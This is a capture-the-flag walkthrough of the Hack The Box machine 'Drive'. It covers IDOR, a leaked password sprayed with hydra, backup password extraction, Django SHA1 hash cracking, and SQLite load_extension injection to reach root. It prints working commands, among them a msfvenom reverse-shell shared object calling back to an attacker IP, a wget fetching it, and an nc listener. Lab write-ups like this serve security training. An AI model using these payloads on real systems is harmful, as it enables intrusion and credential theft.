

## Enumeration
initial nmap:
```
Nmap scan report for 10.129.150.85
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 27:5a:9f:db:91:c3:16:e5:7d:a6:0d:6d:cb:6b:bd:4a (RSA)
|   256 9d:07:6b:c8:47:28:0d:f2:9f:81:f2:b8:c3:a6:78:53 (ECDSA)
|_  256 1d:30:34:9f:79:73:69:bd:f6:67:f3:34:3c:1f:f9:4e (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://drive.htb/
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.89 seconds

```

We are redirected to `drive.htb`, so this must be added to /etc/hosts:
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts                                    
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.129.150.85 drive.htb
```

### Exploring Webapp
We see what is presumably a Google Drive clone, named `Doodle Grive`.


Entering home turns out to be a little different than the main page:


Trying to view the file redirects us to login, so it looks like we must create an account. 
Due to password complexity requirements, registered with creds `asdf:HackTheBoxDrive`

After registering, we see the landing page options have changed. We have the option to upload a file, or view currently posted files, shown in the previous image.


When viewing the welcome post, I notice the url info as well as how the text is generated after clicking `Just View`.


The 100 might be a beginning number sequence related to each post view. It is possible that this could be susceptible to IDOR. Trying the upload feature, we see the rules applied to our submissions: it must have ASCII MIME type and be under 2MB in size. Uploaded contents are only treated as text, so there is not much to be gained from this feature.


#### Leaking registered usernames
If we try to create a test group and then edit the group, we can find that all established users are suggested to add, leaking all usernames associated with Doodle Grive.


```
jamesMason
martinCruz
tomHands
crisDisel
admin
```
We can enumerate potentially vulnerable directories using feroxbuster:
#### Feroxbuster Results
```
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://drive.htb     

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
<...SNIP...>
[####################] - 11m    30000/30000   46/s    http://drive.htb/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/register/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/login/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/upload/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/reports/ 
<...SNIP...>
[####################] - 11m    30000/30000   46/s    http://drive.htb/contact/block/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/login/block/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/subscribe/block/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/home/block/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/register/block/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/logout/block/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/upload/block/ 
[####################] - 11m    30000/30000   46/s    http://drive.htb/reports/block/ 
[####################] - 3m     30000/30000   146/s   http://drive.htb/password_reset/ 
[####################] - 3m     30000/30000   161/s   http://drive.htb/password_reset/block/ 
[####################] - 2m     30000/30000   262/s   http://drive.htb/password_reset/done/
```

It is worth noting that each visiting directory also has a `/<dir>/block` variant. Although I am not too familiar, perhaps this is a product of the web service being utilized?

#### Abusing IDOR to view private messages
Whe we try to abuse IDOR on views, we are presented with `unauthorized` flag:


If we try to access a file not produced already, we receive a different message:


We can leak all file numbers associated with created files if we utilize a tool like `ffuf`. However, it appears it is not necessary. We might eventually find that we can successfully IDOR to unauthorized files using the `/<dir>/block` variant:


```
hi team!  
me and my friend(Cris) created a new scheduled backup plan for the database  
the database will be automatically highly compressed and copied to /var/www/backups/ by a small bash script every day at 12:00 AM  
*Note: the backup directory may change in the future!  
*Note2: the backup would be protected with strong password! don't even think to crack it guys! :)
```
From our previous leak of established users, we can guess that Cris is referring to the user `crisDisel`. From here, I proceed to view all messages by visiting `http://drive.htb/<NUM>/block/`.
##### Fuzzing numbers for valid messages
Rather than check manually, here is where we can utilize `ffuf` to quickly find the ones worth looking at:
```
┌──(kali㉿kali)-[~/Documents/Drive]
└─$ ffuf -u http://drive.htb/FUZZ/block -w nums.txt -b "sessionid=7ma2mz3s3kr3so2f2f2we9l0m6af034g" -r

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://drive.htb/FUZZ/block
 :: Wordlist         : FUZZ: /home/kali/Documents/Drive/nums.txt
 :: Header           : Cookie: sessionid=7ma2mz3s3kr3so2f2f2we9l0m6af034g
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

79                      [Status: 200, Size: 5438, Words: 1216, Lines: 175, Duration: 138ms]
99                      [Status: 200, Size: 5058, Words: 1110, Lines: 171, Duration: 85ms]
98                      [Status: 200, Size: 5016, Words: 1103, Lines: 171, Duration: 91ms]
100                     [Status: 200, Size: 5077, Words: 1147, Lines: 172, Duration: 94ms]
101                     [Status: 200, Size: 5478, Words: 1232, Lines: 177, Duration: 107ms]
:: Progress: [105/105] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
Since viewing these files requires a login, we must supply the sessionid cookie from our browser session. We also need the `-r` flag to follow the 301 redirect. Now viewing the other files:
98:


```
hi team  
have a great day.  
we are testing the new edit functionality!  
it seems to work great!
```

99:

```
hi team  
please we have to stop using the document platform for the chat  
+I have fixed the security issues in the middleware  
thanks! :)
```

79:


```
hey team after the great success of the platform we need now to continue the work.  
on the new features for ours platform.  
I have created a user for martin on the server to make the workflow easier for you please use the password "Xk4@KjyrYv8t194L!".  
please make the necessary changes to the code before the end of the month  
I will reach you soon with the token to apply your changes on the repo  
thanks!
```

From these messages, we can gather a password `Xk4@KjyrYv8t194L!` for user Martin. Additionally to note for the future, there are backups stored in `/var/www/backups/` that are protected with a very "secure" password.
## Foothold
### Utilizing password shared in private messages
Using hydra to spray name variants, we find that we can indeed ssh as martin:
```
┌──(kali㉿kali)-[~/Documents/Drive]
└─$ hydra -L users.txt -p 'Xk4@KjyrYv8t194L!' ssh://drive.htb
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in 
<...SNIP...>
[DATA] attacking ssh://drive.htb:22/
[22][ssh] host: drive.htb   login: martin   password: Xk4@KjyrYv8t194L!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-15 12:27:08
```
## Lateral Movement
Enumerating open ports, we can see port 3000:
```
martin@drive:~$ netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      -                   
```

Using `curl`, we can see that this is a gitea server:
```
martin@drive:/var/www/html$ curl localhost:3000
<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title> Gitea: Git with a cup of tea</title>
<...SNIP...>
```
To view in our web browser, we can utilize an `ssh` tunnel:
```
┌──(kali㉿kali)-[~/Documents/Drive]
└─$ ssh -L 3000:localhost:3000 martin@drive.htb
```
Now our kali machine is listening on local port 3000, and will forward requests to `drive.htb`'s local port 3000.
In the gitea service, we can login as martin and we can see DoodleGrive source code:


Within `db_backup.sh`, we can view that the backup script leaks zip passwords:
```bash
#!/bin/bash
DB=$1
date_str=$(date +'%d_%b')
7z a -p'H@ckThisP@ssW0rDIfY0uC@n:)' /var/www/backups/${date_str}_db_backup.sqlite3.7z db.sqlite3
cd /var/www/backups/
ls -l --sort=t *.7z > backups_num.tmp
backups_num=$(cat backups_num.tmp | wc -l)
if [[ $backups_num -gt 10 ]]; then
      #backups is more than 10... deleting to oldest backup
      rm $(ls  *.7z --sort=t --color=never | tail -1)
      #oldest backup deleted successfully!
fi
rm backups_num.tmp
```

`H@ckThisP@ssW0rDIfY0uC@n:)`
### Abusing weak hash algorithms to crack database passwords
Before we get too far, it is worth noting the most recent commit on this gitea service:
`retruning to the default Djnago hashers due to problems in Bcrypt hashers` 
When we view the commit changes, we see alterations to `geeks_site/settings.py`:


We can see here that this is related to how data in the SQL database is being stored. It seems for some time they were using BCrypt hashes, which is very robust at the expense of processing power. However, it looks like they have recently switched to SHA256. Checking the commit history, we see that at one point they were using SHA1, which is massively easier to crack than SHA256 or Bcrypt:


Now, onto visiting the backup files:
```
martin@drive:/var/www/backups$ ls -al
total 3740
drwxr-xr-x 2 www-data www-data    4096 Sep  1 18:23 .
drwxr-xr-x 5 root     root        4096 Sep 15 13:34 ..
-rw-r--r-- 1 www-data www-data   13018 Sep  1 20:00 1_Dec_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12226 Sep  1 20:00 1_Nov_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12722 Sep  1 20:00 1_Oct_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12770 Sep  1 20:00 1_Sep_db_backup.sqlite3.7z
-rwxr-xr-x 1 root     root     3760128 Dec 26  2022 db.sqlite3
```
The current `db.sqlite3` database does not contain any crackable passwords, but we should check the backup tables as well. Although this database is for the web service `Doodle Grive`, it is possible a user had originally used their system user password before changing.
Here it would be nice to look at gitea's commit timestamps, and we could narrow down which month contains the SHA1 hashes. However, all of the commits are dated on Dec 25th so it is not helpful. Instead, we need to view each backup database and look for the signature `sha1$` before the salt. Unzipping from 7z requires the previously found password:
```
┌──(kali㉿kali)-[~/Documents/Drive]
└─$ 7z e 1_Dec_db_backup.sqlite3.7z

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-4690K CPU @ 3.50GHz (306C3),ASM,AES-NI)

Scanning the drive for archives:
1 file, 13018 bytes (13 KiB)

Extracting archive: 1_Dec_db_backup.sqlite3.7z
--
Path = 1_Dec_db_backup.sqlite3.7z
Type = 7z
Physical Size = 13018
Headers Size = 170
Method = LZMA2:22 7zAES
Solid = -
Blocks = 1


Enter password (will not be echoed):
<...SNIP...>

Size:       3760128
Compressed: 13018
```

December yields the sha256 hashes, which will take forever to crack. However, examining the November backup, we can see SHA1 passwords. Using `hashcat`, I am able to crack the password associated with user tomHands:
```
spencer@MintySJ:~/Desktop$ hashcat -m 124 'sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a' /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule 
hashcat (v6.2.5) starting
<...SNIP...>
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 124 (Django (SHA-1))
Hash.Target......: sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b252...69525a
Time.Started.....: Sun Oct 15 13:22:42 2023 (0 secs)
Time.Estimated...: Sun Oct 15 13:22:42 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   567.5 MH/s (10.44ms) @ Accel:256 Loops:38 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8093696/1104517568 (0.73%)
Rejected.........: 0/8093696 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-38 Iteration:0-38
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> sex123
Hardware.Mon.#1..: Temp: 58c Fan: 19% Util: 73% Core:1316MHz Mem:3004MHz Bus:16

Started: Sun Oct 15 13:22:42 2023
Stopped: Sun Oct 15 13:22:43 2023
```

tom cracks into `johnmayer7`. When checking system user credentials, it is the valid password for `tom`:
```
martin@drive:~$ su tom
Password: 
tom@drive:/home/martin$ 
```
## Privilege Escalation
### Extracting stored credentials from compiled binary
Within tom's home folder, we can find a `doodlegrive-cli` with SUID properties as root:
```
tom@drive:~$ ls -al
total 916
drwxr-x--- 6 tom  tom    4096 Sep 13 13:51 .
drwxr-xr-x 6 root root   4096 Dec 25  2022 ..
lrwxrwxrwx 1 root root      9 Sep  6 02:56 .bash_history -> /dev/null
-rw-r--r-- 1 tom  tom     220 Dec 25  2022 .bash_logout
-rw-r--r-- 1 tom  tom    3771 Dec 25  2022 .bashrc
drwx------ 3 tom  tom    4096 Jan  1  2023 .cache
drwx------ 3 tom  tom    4096 Feb  3  2023 .config
-rwSr-x--- 1 root tom  887240 Sep 13 13:36 doodleGrive-cli
drwx------ 3 tom  tom    4096 Jan  1  2023 .gnupg
drwxrwxr-x 3 tom  tom    4096 Dec 28  2022 .local
-rw-r--r-- 1 tom  tom     807 Dec 25  2022 .profile
-rw-r----- 1 root tom     719 Feb 11  2023 README.txt
-rw-r----- 1 root tom      33 Oct 12 11:59 user.txt
-rw-r--r-- 1 tom  tom      39 Aug 29 05:59 .vimrc
```
The README provides details about the item:
```
Hi team
after the great success of DoodleGrive, we are planning now to start working on our new project: "DoodleGrive self hosted",it will allow our customers to deploy their own documents sharing platform privately on thier servers...
However in addition with the "new self Hosted release" there should be a tool(doodleGrive-cli) to help the IT team in monitoring server status and fix errors that may happen.
As we mentioned in the last meeting the tool still in the development phase and we should test it properly...
We sent the username and the password in the email for every user to help us in testing the tool and make it better.
If you face any problem, please report it to the development team.
Best regards.
```
It mentions credentials, but the email doesn't seem to exist on the box. Fortunately, since this is a binary (and non-stripped!), the user/password check should be baked-in. We can try strings to find this, but with a quick check into vim, I find it very fast by searching for password:

Using strings, we can splice out string contents. It is a lot, so I still find it best to save it to another file, open and vim and search this way:

here we have creds as `moriarty:findMeIfY0uC@nMr.Holmz!`
```
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 
```
It works! Now we have to figure out what to do.
```
Select option: 1
          id = 16
  last_login = 2023-02-11 07:46:11.212535
is_superuser = 1
    username = admin
       email = admin@drive.htb
    is_staff = 1
   is_active = 1
 date_joined = 2022-12-08 14:59:02.802351
<...SNIP...>
          id = 29
  last_login = 2023-10-15 15:58:04.498985
is_superuser = 0
    username = asdf
       email = asdf@asdf.asdf
    is_staff = 0
   is_active = 1
 date_joined = 2023-10-15 15:03:29.237892
```
It is apparent that the program it is pulling data from the web service. Also within the strings, we might find commands related to the commands. 
### SQL injection to load a malicious shared object file
For activating a user account, we can find it allows for user input:
```
/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'UPDATE accounts_customer SET is_active=1 WHERE username="%s"';
```
Injecting SQL to bypass table checking is not helpful for us, but we might [use SQL injection for remote command execution](https://github.com/mpaolino/sqlite-execute-module). However, when checking tricks for this, we quickly find out we are limited in characters. Testing the character limit:
```
doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: 1234567890123456789012345678901234567890
Activating account for user '123456789012345678901234567890123456789'...
```
When supplying a string of 40 characters, only 39 is returned. We should assume that we can only work with a maximum of 39 characters. Our long UNION SELECT payload is not quite viable anymore. Additionally, several characters are not allowed:
```
doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: \/|';..
Activating account for user '..'...
```
Note that out of all the special characters provided in the username input, only dots were accepted and reflected. We can work around banned characters utilizing the [char function](https://www.w3resource.com/sqlite/core-functions-char.php), but working around the character limit also requires creativity. Instead of combining our payload using `AND JOIN` or other ideas, we can simplify it with `+`. First, when we must create our malicious shared object file, which will behave as our linux equivalent to a `dll` loading:
```
┌──(kali㉿kali)-[~/Documents/Drive/sqlite_ex/sqlite-execute-module]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.58 LPORT=4444 -f elf-so -o a.so
```
Next, we must download it to the same file location as `doodleGrive-cli`:
```
tom@drive:~$ wget 10.10.14.21/a.so
--2023-10-16 02:46:13--  http://10.10.14.21/a.so
Connecting to 10.10.14.21:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘a.so’

a.so                          100%[==============================================>]     476  --.-KB/s    in 0s

2023-10-16 02:46:13 (20.4 MB/s) - ‘a.so’ saved [476/476]
```
The small file name is really important, as we must call the characters in our `load_extension` payload. Unless specified, the file extension .so will be appended automatically. This is important for us as we need to minimize the payload characters where possible. For my file, I will want to do load_extension(./a). Looking up the characters on the [ascii table](https://www.asciitable.com/), my payload will look like this:
```
"+load_extension(char(46,47,97))--
```
Finally, running the payload:
```
tom@drive:~$ ./doodleGrive-cli
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,97))--
Activating account for user '"+load_extension(char(46,47,97))--'...
```
Meanwhile on my nc listener:
```
┌──(kali㉿kali)-[~/Documents/Drive/sqlite_ex/sqlite-execute-module]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.235] 55348
id
uid=0(root) gid=0(root) groups=0(root),1003(tom)
```
With this, we have full root authority.
